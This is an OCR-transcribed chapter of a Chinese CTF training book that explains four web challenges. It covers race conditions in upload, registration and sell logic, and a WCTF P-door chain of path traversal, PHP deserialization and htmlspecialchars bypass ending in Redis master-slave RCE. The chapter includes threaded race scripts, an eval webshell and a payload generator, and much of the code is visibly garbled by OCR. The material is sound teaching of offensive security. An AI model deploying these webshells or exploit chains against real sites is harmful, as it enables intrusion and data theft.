

???+ abstract "本章摘要"
    本章以四道 CTF 真题为例，把前面几章的知识点串成实战：NSCTF 2015 与湖湘杯 2016 都是「两次数据库/文件操作存在时间差」的条件竞争，OCTF 2017 是「先更新余额再扣货物」的并发竞态，2019 WCTF 大师赛 P-door 则综合了 Git 源码泄露、路径穿越、任意目录写、PHP 反序列化绕过 htmlspecialchars 以及 Redis 主从 RCE 拿 flag。
## 章节导航

上一篇：[第7章 条件竞争](第7章 条件竞争.md)
下一篇：[第9章 Reverse概述](第9章 Reverse概述.md)
回到目录：[00-目录](00-目录.md)

## 8.1 NSCTF 2015 Web实例

为了让大家能够直观地理解前面章节所讲述的知识点，本章将以CTF比赛中真实出现过的Web题目为例，进行简要分析。

题目逻辑较为简单，当你上传一个php5后缀的文件时，是能够成功上传的，但是很快就会看到提示：检测到恶意文件，且该文件会立即被删掉。题目并没有给出源代码，不过这里我们会结合源码来进行分析，主要源码如下：

```html
<h1>请上传文件！</h1><br>
<form method="post" action="index.php"
enctype="multipart/form-data">
    <input type="file" name="file" value="1111"/>
    <input type="submit" name="submit" value="upload"/>
</form>
<?php
error_reporting(0);
if(isset($_POST['submit》） {
    $savefile = $_FILES['file']['name');
    $savefile = preg_replace("/\.\.\/%/","", $savefile);
    $tempfile = $_FILES['file']['tmp_name');
    $savefile =
preg_replace("/(php|phtml|php3|php4|jsp|exe|dll|asp|cer|asa|shtml|shtml|aspx|asax|cgi|fcgi|pl)(\.|$)/i", "_\1\2", $savefile);
    $savefile = 'upload/'.$savefile;
    if(move_uploaded_file($tempfile, $savefile)) {
        $filename = $savefile;
        if(file_exists($filename) && ((substr($savefile, -5) == '.php5'))) {
            file_put_contents($filename, "flag:
{N�CTF_8f0fc74ddf786103ed56d20af3bf269");
            sleep(0.5);
        unlink($filename);
        exit('上传成功，文件地址为:'.$savefile."<br>"."但是系统检测到恶意上传立马又被删了~");
    } else {
        unlink($filename);
    }
}

exit('上传成功，文件地址为:'.&savefile."<br>");
}
}else{
    exit('上传失败~'."<br>");
}
```

[OCR存疑：源码为 OCR 识别，存在多处括号/引号不匹配——`$_POST['submit》）` 中 `]` 与收尾单引号被误识为 `》`（U+300B），`$_FILES['file']['name');`、`$_FILES['file']['tmp_name');` 括号不配对，另含伪造字符 `{N�CTF_...`（疑为 flag 前缀，`�` 为不可识别字符），均按原文逐字保留。]

可以看到题目将flag写入我们上传的文件，但是隔了0.5s之后就删掉了，所以我们可以通过多线程并发操作，同时上传然后访问，利用中间0.5s的间隙通过==条件竞争漏洞==在其还未被删除时访问，即可获得flag，测试代码如下：

```python
import sys
import requests
import threading

url1 = "http://127.0.0.1:8000/"
url2 = "http://127.0.0.1:8000/upload/1.php5"

def upload(url):
    boundary = '----------
    -1140584253378828599621526726'
    header = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0',
        'Accept':
        'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type': 'multipart/form-data;
    boundary='+boundary,
        'Connection': 'keep-alive',
    }
    tmp = []
    tmp.append('--' + boundary)
    tmp.append('Content-Disposition: form-data;

name="file"; filename="1.php5"
tmp.append('Content-Type: application/octet-stream')
tmp.append('')
content="<?php @eval($_POST[bendawang]);?>
tmp.append(content)
tmp.append('--' + boundary)
tmp.append('Content-Disposition: form-data;
name="submit"')
tmp.append('')
tmp.append('upload')
tmp.append('--' + boundary + '--')
tmp.append('')
CRLF = '\\n'
data = CRLF.join(tmp)
result=requests.post(url,data=data,headers=header)
return result

def get(url):
    try:
        result=requests.get(url)
        if "flag" in result.content:
            print result.content
    except:
        pass

def main():
    while True:
        t1 = threading.Thread(target=upload, args=(url1,))
# 一个线程上传
        t2 = threading.Thread(target=get, args=(url2,)) # 一个线程竞争访问
        t1.start()
        t2.start()
        t1.join()
        t2.join()

if __name__ == 'main':
    sys.exit(int(main() or 0))
```

[OCR存疑：以上 Python 代码存在多线程竞争脚本常见 OCR 错漏（如 `boundary = '----------` 中间混入换行、`content="...;?>` 缺右引号、`if __name__ == 'main':` 疑为 `'__main__'`），均按原文逐字保留。]

运行结果如图8-1所示。

{ width="53%" }


*图8-1 运行结果*

???+ tip "本节要点"
    1. 上传 php5 文件能成功，但 0.5s 后即被 `unlink` 删除，漏洞是「检测与删除之间的时间差」；
    2. 解法：多线程并发上传 + 访问，抢在删除前的 0.5s 窗口读到写有 flag 的文件（条件竞争）；
    3. 上传脚本用 `threading.Thread` 起两个线程：`upload` 上传、`get` 竞争访问，循环重试直到 `"flag" in result.content`；
    4. `move_uploaded_file` 先落盘、再判断后缀并写 flag、再 `sleep(0.5)` 后 `unlink`，中间窗口就是攻击点。
## 8.2 湖湘杯2016线上选拔赛Web实例

该题目通过备份文件的方式给出了源码，其中与解题相关的页面有两个，一个是注册页面register.php，一个是登录页面login.php，登录成功则会自动重定向到首页上。两个页面的源代码如下。

注册页面：

```php
//register.php
<?php
include("connect.php");
$title = "AArt - Your home for ASCII Art";
include("header.html");
include("sidebar.php");
?>
<div class="flakes-content">
<div class="view-wrap">
<h1>注册</h1>
</div>
<?php
if(isset($_POST['username》） {
$username = mysql_real_escape_string($conn,
$_POST['username']);
$password = mysql_real_escape_string($conn,
$_POST['password']);
$sql = "INSERT into users (username, password) values
('$username', '$password');";
mysql_query($conn, $sql);
$sql = "INSERT into privs (userid, isRestricted)
values ((select users.id from users where
username='$username'), TRUE);";
mysql_query($conn, $sql);
?>
<h2>注册成功！</h2>
<?php
} else {

?>
<div class="grid-1">
    <div class="span-1">
        <fieldset>
            <legend>账户</legend>
            <form action="register.php" method="post">
            <ul>
                <li>
                    <label>用户名</label>
                    <input type="text" name="username">
                    </li>
                    <li>
                    <label>密码</label>
                    <input type="text" name="password">
                    </li>
                    <li><input type="submit"></li>
                </ul>
            </form>
        </fieldset>
    </div>
</div>
<?php
}
?>
</div>
<?php
include("footer.html");
?>
```

## 登录页面：

```php
//login.php
<?php
include("connect.php");
$title = "AArt - ASCII字符艺术之家";
include("header.html");
include("sidebar.php");
?>
<div class="flakes-content">
    <div class="view-wrap">

<h1>登录</h1>
</div>

<?php
if (isset($_POST['username'])) {
    $username = mysql_real_escape_string($conn, $_POST['username']);
    $sql = "SELECT * from users where username='$username';";
    $result = mysql_query($conn, $sql);
    $row = $result->fetch_assoc();
    var_dump($_POST);
    var_dump($row);
    if ($_POST['username'] === $row['username'] and $_POST['password'] === $row['password']){
    ?>
<h1>Logged in as <?php echo($username);?></h1>
<?php
$uid = $row['id];
$sql = "SELECT isRestricted from privs where userid='$uid' and isRestricted=TRUE';";
$result = mysql_query($conn, $sql);
$row = $result->fetch_assoc();
if ($row['isRestricted]) {
    ?>
    <h2>此账户限制登录</h2>
</php
} else {
?>
    <h2><?php include('../flag');?></h2>
</php
}
<h2>成功！”</h2>

<?php
}
} else {
?>
<div class="grid-1">
    <div class="span-1">
        <fieldset>
            <legend>账户</legend>
            <form action="login.php" method="post">
                <ul>
                    <li>
                        <label>用户名</label>
                  </label>
  </fieldset>
  </div>
</h1>

<input type="text"
name="username">
    </li>
    <li>
        <label>密码</label>
        <input type="text"
        </li>
        <li><input type="submit"
        value="Login"></li>
    </ul>
</form>
</div>
</div>
<?php
}
?>
</div>
<?php
include("footer.html");
?>
```

[OCR存疑：register.php 与 login.php 源码存在多处 OCR 错漏——register.php 的 `$_POST['username》）` 中 `]` 与收尾单引号被误识为 `》`（U+300B），另有 `$row['id];`、`$row['isRestricted])`、`</php` 疑为 `?>`、`成功！”` 多出右引号、login.php 后半 HTML 结构错乱，均按原文逐字保留，不影响对「两次数据库操作存在时间差」这一漏洞逻辑的理解。]

分析login.php的代码可以了解到，只要满足

$row['isRestricted']不为真或没有返回值（即查询为空），就能获取到flag。再来看看register.php的关键部分：

```php
$sql = "INSERT into users (username, password) values
('$username', '$password');";
mysql_query($conn, $sql);
$sql = "INSERT into privs (userid, isRestricted) values
((select users.id from users where username='$username'),
TRUE);";
mysql_query($conn, $sql);
```

注册时的逻辑是先向users表中插入用户和密码，再向privs表中插入权限信息，所以==两次数据库操作存在时间差==。当我们在插入用户密码，但是还没有插入权限信息时登录，就能够获得flag了。

所以，同样的测试代码如下：

#题目与代码来源：https://github.com/iAklis/changelogstory

```python
import requests
import string
import re
import random
import threading

url_register = "http://127.0.0.1:8000/register.php"
url_login = "http://127.0.0.1:8000/login.php"
def register(data):
    requests.post(url_register, data=data)

def login(data):
    S = requests.Session()
    R = S.post(url_login, data=data)
    content = R.content
    if 'flag' in content:
        print content

def main():
    while True:
        username = 'test' + ''
    .join(random.choice(string.ascii_letters) for i in range(5))
        password = '123'
        data = { 'username' : username, 'password' : password}
        t1 = threading.Thread(target=register, args=

(data,))
t2 = threading.Thread(target=login, args=(data,))
t1.start()
t2.start()

t1.join()
t2.join()

if __name__ == '__main__':
    import sys
    sys.exit(int(main()) or 0))
```

[OCR存疑：以上 Python 代码缩进与换行存在 OCR 错位（`username = 'test' + ''` 后换行 `.join(...)`、`args=` 后换行 `(data,))`、`or 0))` 多一个右括号），按原文逐字保留。]

最后附上数据库的结构，以便大家自己测试：

```sql
CREATE database if not exists aart;
USE aart;
DROP TABLE art;
CREATE TABLE art
(
id INT PRIMARY KEY AUTO_INCREMENT,
title TEXT,
art TEXT,
userid INT,
karma INT DEFAULT 0
);
DROP TABLE users;
CREATE TABLE users
(
id INT PRIMARY KEY AUTO_INCREMENT,
username TEXT,
password TEXT
);
DROP TABLE privs;
CREATE TABLE privs
(
userid INT PRIMARY KEY,
isRestricted BOOL
);
```

???+ tip "本节要点"
    1. 通过「备份文件」泄露源码，锁定 register.php（插入 users + privs 两条 SQL）与 login.php（校验 isRestricted）；
    2. 登录打印 flag 的条件：`$row['isRestricted']` 不为真或查询为空；
    3. 注册逻辑「先插 users、再插 privs」存在时间差，抢在 privs 落库前登录即可绕过 `isRestricted=TRUE` 限制；
    4. 竞争脚本用随机用户名注册 + 立即登录重试，线程并发覆盖时间窗口。
## 8.3 OCTF 2017 Web实例

这道题与上一道题是类似的，这里简单介绍下题目内容：注册登录之后，我们账户里面一共有4000元，但是要获得hint需要8000元。页面给出了如图8-2所示的功能。


| Name | Price | You Have | Buy | Sale |
| --- | --- | --- | --- | --- |
| Frostmurn | 4000 | 0 | BUY | SALE |
| Erwin Schrodinger's Cat | 1600 | 0 | BUY | SALE |
| HINT! | 8000 | 0 | BUY | SALE |
| Backword | 2800 | 0 | BUY | SALE |
| Brownie | 2200 | 0 | BUY | SALE |
| Ice Cream | 300 | 0 | BUY | SALE |

*图8-2 题目界面*


如图8-2所示，我们可以买入一个东西，也可以将其卖出，逻辑很清晰。根据猜测以及前文中的分析，我们可以得知在卖出的时候，服

务端先更新账户余额，再扣除货物，所以可以利用两次数据库操作的时间差来触发条件竞争漏洞，测试代码如下：

```python
import sys
import requests
import threading

url1 = "http://202.120.7.197/app.php"
def get(url):
    try:
        result=requests.get(url,headers=
            {"Cookie":"PHPSESSID=s19hq4hahl2fdoomact47vpq75"})
    except:
        pass

def main():
    while True:
        t1 = threading.Thread(target=get, args=(url1+"?action=buy&id=5",))
        t2 = threading.Thread(target=get, args=(url1+"?action=sale&id=5",))
        t3 = threading.Thread(target=get, args=(url1+"?action=sale&id=5",))
        t1.start()
        t2.start()
        t3.start()

if __name__ == __main__':
    sys.exit(int(main() or 0))
```

[OCR存疑：`if __name__ == __main__:` 疑为 `if __name__ == '__main__':`，按原文逐字保留。]

通过上述代码即可触发条件竞争漏洞从而获得金钱。最后给出部分源码，以帮助分析，处理卖出请求的源码如下：

```php
<?php
if (!isset($_GET['id'])) {
    errormsg("Goods id required.");
}

$goodsid = intval($_GET['id']);
$userid = $user['id'];
$sql = "select id from usergoods where goodsid = $goodsid and userid = $userid"; //确认是否有与此id对应的产品
$result = $con->query($sql);
$tmp = $result->fetch_array(MYSQLI_ASSOC);
if (!$tmp) {
    errormsg("You don't have this goods");
}
$sql = "select price, info, name from goods where id = $goodsid";
//查询产品的价格
$result = $con->query($sql);
$goods = $result->fetch_array(MYSQLI_ASSOC);
$price = $goods['price');
$wallet = $user['wallet');
$wallet += $price; //$wallet即账户余额
$sql = "update`user` set wallet = $wallet where id = $userid";
//卖出的时候先更新账户余额
if ($con->query($sql) !== true) {
    errormsg("Update fail");
}
$sql = "delete from usergoods where goodsid = $goodsid and userid = $userid limit 1"; //更新完账户余额后再扣除货物
if ($con->query($sql) !== true) {
    errormsg("Sale fail");
}
msg(
    [
        "status" => "suc",
        "wallet" => $wallet,
    ]
);
```

[OCR存疑：`$price = $goods['price');`、`$wallet = $user['wallet');` 括号不匹配，`"update`user` set...` 表名用反引号，均按原文逐字保留。]

???+ tip "本节要点"
    1. 账户初始 4000 元，hint 需 8000 元，靠买卖差价「倒腾」资金；
    2. 卖出逻辑「先 `update` 余额、再 `delete` 货物」，两步之间存在时间差，可并发触发条件竞争；
    3. 脚本起三个线程：一个 buy、两个 sale，用同一 PHPSESSID 并发请求 `app.php`，使两次卖出共享同一商品额度；
    4. 源码关键处在「更新余额」与「扣除货物」的先后顺序，顺序颠倒即可绕过扣货。
## 8.4 2019 WCTF大师赛赛题剖析：P-door

这道题用到了前文所述的代码审计、反序列化漏洞等技术，该题目已经开源，获取地址为https://github.com/paul-axe/ctf。拿到题目后，可以发现其具有以下几个功能：注册、登录、写文章（如图8-3所示）。

```
User: testsky

test

test

Created by Super Blog System.

Rendered at: 1562656583.9231

 $ \underline{\text{Back}} $ Publish
```

*图8-3 题目界面*


注意，Cookie中存在反序列化字符串形式的值，如图8-4所示。

{ width="75%" }


*图8-4 发现反序列化字符串*

所以猜测这道题可能需要获得源码并进行审计，扫描后发现存在Git泄露源码的问题。

分析代码时可以发现，代码量非常少，但挑战不小。我们关注到该题主要有3个大类，分别是：User、Cache、Page，并且在代码中使用了Redis作为数据库，代码如下：

```php
$redis = new Redis();
$redis->connect("db", 6379) or die("Cant connect to database");
```

所以猜测题目不是要Getshell就是SSRF，flag很有可能在Redis数据库服务器中。如果要进行Getshell，或许可以利用“写文章”的功能，那么审计的重点就会集中到写文件部分。在大概了解了代码结构之后，首先我们关注一下Page类里的publish方法，代码如下：

```php
public function publish($filename) {
    $user = User::getInstance();
    $ext = substr(strstr($filename, "."), 1);
    $path = $user->getCacheDir() . "/". microtime(true).".$.ext;
    $user->checkWritePermissions();
    Cache::writeToFile($path, $this);
}
```

可以看到，在路径的结尾，文件名的后缀会取第一个“点”后面的部分，构造出路径穿越，例如：

```php
$filename = '.../.../.../.../var/www/html/sky.php';
```

我们可以利用这一点进行任意目录写。

下面再来跟进一下传参方式，首先看一下index.php，代码片段如下:

```php
$controller = new MainController();
$method = "do".$_GET["m"];
if (method_exists($controller, $method)) {
    $controller->$method();
} else {
    $controller->doIndex();
}
```

从这段代码中可以发现，我们可以触发以 “do” 开头的方法，接下来查看调用publish的相关方法，代码如下：

```php
public function doPublish() {
    $this->checkAuth();
    $page = unserialize($_COOKIE["draft"]);
    $name = $_POST["frame"];
    $page->publish($frame);
    setcookie("draft", null, -1);
    die("Your blog post will be published after a while (never) <br><ahref=/>Back</a>");
}
```

可以看到，doPublish方法体第4行的$page会调用publish方法，该方法的参数使用了POST的fname参数。那么我们可以构造fname参数为：

/var/www/html/sky.php

继续往下，可以看到 “Cache::writeToFile($path, $this);”，从方法名可以判断出这是一个写文件操作，下面继续跟进writeToFile方法，代码如下：

```php
class Cache {
    public static function writeToFile($path, $content) {
        $info = pathinfo($path);
        if (!is_dir($info["dimname"]))
            throw new Exception("Directory doesn't exists");
        if (is_file($path))
            throw new Exception("File already exists");
        file_put_contents($path, $content);
    }
}
```

可以看出，writeFile方法在写文件之前会先判断目录是否存在，若不存在则抛出异常，而我们的路径为：

```php
$path = $user->getCacheDir() . "/". microtime(true) . "."
. $ext;
```

显然，microtime(true) 目录是不存在的，所以我们继续跟进参与到路径变量拼接中的getCacheDir方法，代码如下：

```php
public function getCacheDir(): string {
    $dir_path = self::CACHE_PATH . $this->name;
    if (!is_dir($dir_path)) {

mkdir($dir_path);
}
return $dir_path;
```

我们发现其中调用了mkdir方法来创建目录，并且这一步是在校验写权限方法“$user->checkWritePermissions();”之前。因此，如果我们可以控制：

$dir path = self::CACHE PATH . $this->name;

就可以创建任意目录。但还有一个microtime(true)目录是无法控制的，所以接下来需要我们对要创建的microtime(true)目录名进行预估，如图8-5所示。

```text
php > echo time() . "&& ". microtime(true);
1563883585 && 1563883585.2312
php > echo time() . "&& ". microtime(true);
1563883587 && 1563883587.2366
php > echo time() . "&& ". microtime(true);
1563883587 && 1563883587.7789
php > echo time() . "&& ". microtime(true);
1563883588 && 1563883588.2679
php > echo time() . "&& ". microtime(true);
1563883588 && 1563883588.732
```

*图8-5 microtime返回格式*


可以设置一个提前时间量用于批量创建文件夹，然后就可以用Burp或自写脚本进行爆破，直到找到目录，达到任意写文件的目的。

在确认可任意写文件之后，还需要控制文件的内容，接下来是审计相关代码：

```php
Cache::writeToFile($path, $this);
```

注意，writeFile方法的第二个参数是$this，再次查看writeToFile方法，可以发现如下关键代码：

```php
file_put_contents($path, $content);
```

此处会触发魔法方法__toString方法（参见5.1.2节关于反序列化漏洞的相关内容）：

```php
public function __toString(): string {
    return $this->render();
}
```

并在__toString方法中触发render方法，render方法代码如下：

```php
public function render(): string {
    $user = User::getInstance();

if (!array_key_exists($this->template,
self::TEMPLATES))
    die("Invalid template");
$tpl = self::TEMPLATES[$this->template];
$this->view = array();
$this->view["content"] = file_get_contents($tpl);
$this->vars["user"] = $user->name;
$this->vars["text"] = $this->text."\n";
$this->vars["rendered"] = microtime(true);
$content = $this->renderVars();
$header = $this->getHeader();
return $header.$content;
}
```

可以看到，render方法体中倒数第三行对content进行了处理：

```php
$content = $this->renderVars();
```

所以我们跟进renderVars方法，看看处理规则是怎样的，renderVars方法代码如下：

```php
public function renderVars(): string {
    $content = $this->view["content"];
    foreach ($this->vars as $k=>$v) {
        $v = htmlspecialchars($v);
        $content = str_replace("@@$k@@", $v, $content);
    }
    return $content;
}
```

可以发现foreach循环体中第二行会对content进行编码：

```php
$v = htmlspecialchars ($v);
```

此处调用了一个HTML字符实体编码的方法，那么现在的难点在于，我们无法构造出php tag来写入文件，因为==htmlspecialchars方法会将“<?php”转义为“&lt;?php”==，如图8-6所示。

{ width="75%" }


*图8-6 HTML字符实体*


所以，这里就需要巧妙地构造出一个不被转义的php tag，从renderVars方法中可以看到，返回的$content在过滤前会被$this->view["content"]赋值。

如果我们能在赋值之前控制$this->view，将其变成字符串而非数组，那么便可以绕过过滤（如图8-7所示），这里需要用到2017 GCTF中的一个方法（可参考https://skysec.top/2017/06/20/GCTF中与PHP反序列化相关的题目）。

{ width="75%" }


*图8-7 绕过htmlspecialchars编码*


这个方法利用的是“&”符，比如“$this->vars["text"]=&$this->view;”，此时只要改变$text的值，即可达到更改$this->view的目的。我们可以在doSaveDraft方法中看到$text并没有被过滤，所以可以构造：

```php
$text='<?php';
```

这样$view就会变成字符串而非数组了，这便达成了在图8-7中bypass过滤的目的。

那么，应该如何构造出可用的 $ \text{exp} $呢？仅仅1个“<”是不够的，并且此处我们要注意到，==file_put_contents方法是覆盖数据而不是追加数据==。

所以exp必须一次到位，那么这里就要看render方法中最后的return语句，如下：

```php
return $header.$content;
```

假如$content依然为对象，那么代码就会继续触发_toString()，这样一来我们就可以一个字符一个字符地进行拼接，直到凑出exp，下面附上lcbc构造的exp，代码如下：

```php
$PAYLOAD = "<?php eval(\$\_REQUEST[1]);";
function gen_payload($payload){
    $expl = false;
    for ($i=0; $i<strlen($payload); $i++) {
        $p = new Page("main");
        $p->text = $payload[$i];
        $p->vars["text"] = &$p->view;
        if (!$expl)
            $expl = $p;
        else {
            $p->header = $expl;
        }
    }
}

$expl = $p;
}
}
return serialize($expl);
}
gen_payload($PAYLOAD);
```

[OCR存疑：以上 exp 代码存在多处花括号不配对（`function gen_payload` 后缺右花括号、多余的 `}`），`_toString()` 疑为 `__toString()`，均按原文逐字保留。]

这样就可以非常巧妙地拼接出Payload了，如图8-8所示。

{ width="75%" }

*图8-8 生成Payload*


由于在写文件时会跟随很多tpl模板中输出的内容，这些内容会导致PHP解析失败（如图8-9所示），所以在最后闭合“?”的时候，还使用了一个技巧，可以使用__halt_compiler方法让编译器停止继续向下编译，如图8-10所示。

{ width="75%" }


*图8-9 无关数据导致的编译失败*


{ width="75%" }


*图8-10 用__halt_compiler方法使编译器停止*


将Payload提交后就可以顺利拿到Webshell了，拿到Webshell之后，我们需要从Redis中获得flag。这里需要掌握一个新的知识点：==Redis从4.x版本开始存在一个主从模式（slave）的安全问题==。参考资料为https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf。

下面我们来模拟一下，假设题目中Redis服务在192.168.1.106:10004上，公网IP为192.168.1.185。这里使用脚本（https://github.com/n0b0dyCN/redis-rogue-server）在公网端模拟一个Redis服务，启动时加载恶意so文件。

让目标192.168.1.106:10004成为该服务的从服务端（实际情况下，若不在同一网络下，则需要端口转发），利用FULLRESYNC进行远程代码执行，如图8-11所示。

{ width="75%" }


*图8-11 Redis 5.0 RCE示例*

然后便可以进行Getflag了，如图8-12所示。

{ width="75%" }


*图8-12 获得flag*

???+ tip "本节要点"
    1. 入口：Cookie 里发现 `unserialize` 反序列化字符串 + 扫描发现 Git 源码泄露，拿到源码审计；
    2. 核心类 User/Cache/Page，Redis 作数据库，flag 在 Redis 服务器，目标 getshell 或 SSRF；
    3. `publish` 路径拼接 `microtime(true)`（不可控）+ 可控后缀，配合 `getCacheDir` 的 mkdir 可任意建目录、任意写文件；
    4. 绕过 `htmlspecialchars`：用引用 `&` 把 `$this->view` 变成字符串（`$this->vars["text"]=&$this->view`），再设 `$text='<?php'`；
    5. `file_put_contents` 是覆盖而非追加，exp 必须一次到位——利用 `__toString()` 链逐字符拼接，最后 `__halt_compiler` 停止编译；
    6. 拿 shell 后利用 Redis 4.x 主从复制（FULLRESYNC + 恶意 so）实现 RCE 取 flag。
## 本篇小结

本篇主要介绍了CTF比赛中常用的工具及常见题目的考点，由于Web题目通常是灵活多变的，所以本篇无法面面俱到地为大家讲解。

在解答Web题目的时候，除了前面讲到的各种知识点，还应该考虑题目上下文的系统特性、语言特性、版本特性、程序处理机制等因素。

大家还可以自行阅读《白帽子讲Web安全》《SQL注入攻击与防御》《黑客攻防技术宝典——Web实战篇》《Web前端黑客技术与揭秘》等相关书籍，并关注国内外最新的安全焦点，来进一步学习Web安全的相关知识。

在参加CTF比赛或做CTF练习题的时候，更多的是需要靠积累的经验来判断出题人的考点是什么，而本篇的主要目的也是希望帮助读者在遇到Web题目时能有一个正确的思考方法。

## 第二篇 CTF之Reverse

Reverse即软件逆向工程，是对编译成型的二进制程序进行代码、逻辑和功能分析的过程。在CTF比赛中，Reverse类型的题目主要考察选手的软件静态分析和动态调试能力，要求选手有较强的程序代码分析能力，同时对反调试、代码混淆等对抗技术有一定的了解。

??? note "关于「本篇小结」与「第二篇 CTF之Reverse」"
    这两段位于本章原文末尾，属于全书「第一篇 CTF之Web 小结」与「第二篇 CTF之Reverse 引言」的篇级内容，而非第 8 章正文。为遵守「原文一字不删」铁律，此处按原文顺序完整保留，不计入本章要点与自测题。
## 本章思维导图



## 易错点

!!! warning "易错点"
    1. ==条件竞争的关键是「两次操作之间的时间差」==，不要只看表面逻辑就断定无漏洞，要追到源码里每次落盘/落库的先后顺序。
    2. `file_put_contents` 是**覆盖**不是**追加**：P-door 中 exp 必须一次到位，否则前功尽弃。
    3. `htmlspecialchars` 会把 `<?php` 转成 `&lt;?php`，直接写 shell 会被转义；要在赋值给 `$this->view` 之前把它变成字符串才能绕过。
    4. `microtime(true)` 产生的目录名不可控，需要提前预估时间量并批量创建目录再爆破。
    5. Redis 4.x 起才存在主从复制（slave）RCE 问题，低版本不适用此打法。
??? note "自测题"
    **基础**
    1. NSCTF 2015 这道题的上传文件为什么「能上传成功、但很快被删」？漏洞出在哪里？
    2. 条件竞争漏洞的本质是什么？8.1 中攻击者抢的是哪个时间窗口？
    3. 湖湘杯 2016 中，登录页面打印 flag 的条件是什么？
    4. register.php 的两次数据库插入各是什么？为什么要「先 users 后 privs」？
    5. OCTF 2017 中卖出（sale）请求在服务端做了哪两步？顺序为什么会导致漏洞？
    6. P-door 中 `publish` 方法的路径是如何拼接的？哪一部分是可控的？
    
    **进阶**
    7. P-door 里 `htmlspecialchars` 会怎样阻止写入 `<?php`？作者用什么办法绕过了它？
    8. 为什么说 `file_put_contents` 是覆盖而非追加会带来麻烦？作者最终怎样「一次到位」构造 exp？
    9. `__halt_compiler` 在最终 Payload 里起什么作用？
    10. 拿到 Webshell 后，作者用什么思路从 Redis 数据库里取出 flag？
    
    **参考答案**
    1. 题目先把 flag 写进上传文件，`sleep(0.5)` 后又 `unlink` 删除；漏洞在「写 flag 到删除」之间的 0.5s 时间差。
    2. 本质是并发下「读/写、检测/使用之间」的非原子时间差；8.1 抢的是文件被删前的 0.5s，并发上传+访问读到 flag。
    3. `$row['isRestricted']` 不为真、或查询为空（无返回值），就会 `include('../flag')`。
    4. 先 `INSERT into users`（用户名密码）、再 `INSERT into privs`（isRestricted=TRUE）；先插 users 后插 privs 造成两次操作之间存在时间差。
    5. 先 `update `user` set wallet` 更新余额、再 `delete from usergoods` 扣货物；先加钱后扣货的次序让并发重放 sale 时可在扣货前重复加钱。
    6. 路径 = `getCacheDir() . "/" . microtime(true) . "." . $ext`；`$ext`（第一个点之后的文件名后缀）是可控的，可构造 `.../.../var/www/html/sky.php` 路径穿越。
    7. `htmlspecialchars` 把 `<?php` 转义成 `&lt;?php`，文件里写不出可执行 PHP；作者用引用 `&`（`$this->vars["text"]=&$this->view`）让 `$this->view` 变成字符串，在赋值给 `view["content"]` 前绕过过滤。
    8. 覆盖意味着没法一点点补写，必须一次写出完整 exp；作者利用 `__toString()`/`render()` 递归触发，把字符逐位拼进 `$header`，最终 `return $header.$content` 一次写出。
    9. 写文件时会带入大量 tpl 模板内容导致 PHP 编译失败，`__halt_compiler` 让编译器在此停止向下编译，忽略后面的无关数据。
    10. 利用 Redis 4.x 主从复制漏洞：公网起一个 Redis 恶意主服务加载 so，把目标设成它的从库，通过 FULLRESYNC 触发远程代码执行取 flag。
## 参考资料

- 原书：CTF特训营（FlappyPig战队 著，机械工业出版社 2020）。
- 湖湘杯 2016 题目与代码：https://github.com/iAklis/changelogstory
- 2019 WCTF P-door 源码：https://github.com/paul-axe/ctf
- GCTF 2017 PHP 反序列化参考：https://skysec.top/2017/06/20/GCTF中与PHP反序列化相关的题目
- Redis 主从复制安全问题：https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
- redis-rogue-server 脚本：https://github.com/n0b0dyCN/redis-rogue-server

*来源：CTF特训营（FlappyPig战队 著，机械工业出版社 2020），OCR 全内容保留整理版。*
